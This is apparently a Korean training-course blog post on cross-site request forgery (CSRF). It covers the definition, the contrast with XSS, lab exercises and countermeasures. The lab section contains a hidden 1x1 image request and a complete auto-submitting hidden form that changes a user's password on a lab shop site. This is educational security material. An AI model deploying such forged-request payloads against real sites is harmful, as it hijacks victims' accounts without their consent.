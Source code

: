 ```yaml
---
layout: post
title: CSRF
subtitle: Cross Site Request Forgery
categories: Web Vulnerability
tags: [Web, Injection, Pentest]
---
```


**본 내용 및 실습 환경은 KISEC, 케이쉴드 주니어 교육 과정에 있음을 알려드립니다.**

## 정의

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179171240-596ab43c-2010-4802-8dd4-629fa67356e0.png">
</p>

크로스 사이트 요청 위조(Cross Site Request Forgery, CSRF)는 서버가 실제 서비스 페이지를 통한 정상요청인지 확인하지 않고 처리하는 경우 악의적인 스크립트를 이용하여 다른 사용자의 권한으로 중요기능 실행, 패스워드 변경 등의 공격을 할 수 있는 취약점이다.

즉, 사용자가 자신의 의지와는 무관하게 공격자가 의도한 행위를 특정 웹사이트에 요청하게 하는 공격을 말한다.

* CSRF 공격는 **서버**대상으로 이루어진다.

## XSS와 CSRF의 차이점

* **XSS**는 공격대상이 **클라이언트**이고, 스크립트 실행이 목적이다. 인증된 세션 없이 공격이 가능하다.

* **CSRF**는 공격대상이 **서버**고, 특정 행위(패스워드 변경)가 목적이 된다. 반드시 인증된 사용자를 공격하므로, 인증된 세션이 필요하다는 차이가 있다.

## 실습

### 0. 실습 원리

가로 세로 크기가 1 또는 0인 **img 태그**를 삽입하면 사용자는 해당 이미지가 있는지 알 수가 없다.

HTML 문서를 먼저 주고받은 후에 사용자 측 브라우저에서 HTML 문서를 파싱하다가 **img 태그**를 화면에 출력하기 위해 **src 속성**의 공격자가 의도한 URL 요청을 보내는 원리이다.

### 1. GET 방식

게시물 이동 간에 GET 방식을 이용하여 이동하는 요청이 있다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179174494-dca955e1-775a-447d-9940-ad60efe866d1.png" width = 380>
</p>

* 우리는 게시물에 스크립트를 작성하여 요청을 위조할 것이다.

```html
<img src = "요청을 위조하고자 하는 사이트" width = "1" height = "1" />
```

위 내용을 게시물에 올리고 해당 게시물을 클릭하면 원래의 게시물이 보이는게 아닌 요청을 위조하고자 하는 사이트로 이동하게 될 것이다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179178908-61733b87-f683-4da0-bbab-efbd0fcf226e.png" width = 380>
</p>

* 이것은 게시물을 클릭하고 Burp Suite로 캡쳐한 것이다.
* 게시물에 해당 요청이 아닌 **GET 위조하고자 한 사이트**로 변경 된 것을 알 수 있다.

### 2. POST 방식

이번에는 게시물 클릭 이후 자동으로 공격자가 원하는 패스워드를 변경하는 방식으로 실습을 해볼 것이다.

패스워드 변경할 때 어떤 방식의 패킷이 움직이는 지 볼 것이다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179179788-c52c9684-85eb-4c90-b759-91455772f9ec.png" width = 380>
</p>

* POST 방식의 페이지 요청 값과, 파라미터가 어떻게 이루어지는지 알 수 있다.

```html
<iframe name="ifr"></iframe>
<form target="ifr" name = "frm" method="post"
action="http://10.200.165.9/demoshop/account/profile_edit_ok.asp">
    <input type="hidden" name="user_id" value="test">
    <input type="hidden" name="passwd" value="aa1122">
    <input type="hidden" name="passwd_q" value="%C1%C1%BE%C6%C7%CF%B4%C2+%BB%F6%B1%F2%C0%BA%3F">
    <input type="hidden" name="passwd_a" value="1">
    <input type="hidden" name="Name" value="%C3%BB%C3%BB%C3%BB">
    <input type="hidden" name="birth_yy" value="1911">
    <input type="hidden" name="birth_mm" value="11">
    <input type="hidden" name="birth_dd" value="11">
    <input type="hidden" name="birth_gbn" value="1">
    <input type="hidden" name="ismarry" value="1">
    <input type="hidden" name="address" value="%5B520-150%5D%26%23160%3B%C0%FC%B3%B2%26%23160%3B%B3%AA%C1%D6%BD%C3%26%23160%3B%C3%BB%B5%BF%26%23160%3B+111">
    <input type="hidden" name="tel1_2" value="1111">
    <input type="hidden" name="tel1_3" value="1111">
    <input type="hidden" name="whereTel1" value="1">
    <input type="hidden" name="hp1" value="">
    <input type="hidden" name="hp2" value="">
    <input type="hidden" name="hp3" value="">
    <input type="hidden" name="job" value="%B0%F8%B9%AB%BF%F8">
    <input type="hidden" name="email" value="1111%40naver.com">
    <input type="submit">
</form>
<script>
    document.frm.submit();
</script>
```

* 모든 매개변수와 공격자가 원하는 정보를 수정해서 해당 스크립트를 저장해두면 해당 게시물을 클릭했을 때, 사용자가 원하는 요청을 위조하여 패스워드가 변경되는 것이다.

## 보안 대책

1. 사용자가 요청한 내용이 위조된 요청인지 여부를 사용자 접근권한 정보가 포함된 토큰을 이용하여 세션정보에 포함된 토큰값과 요청에 포함된 토큰값의 비교를 통해 확인한다.
 
2. CAPCHA를 이용하여 추가적인 인증을 한다.
 
3. 사용자의 회원탈퇴, 정보수정에 비밀번호를 한번 더 요청한다.
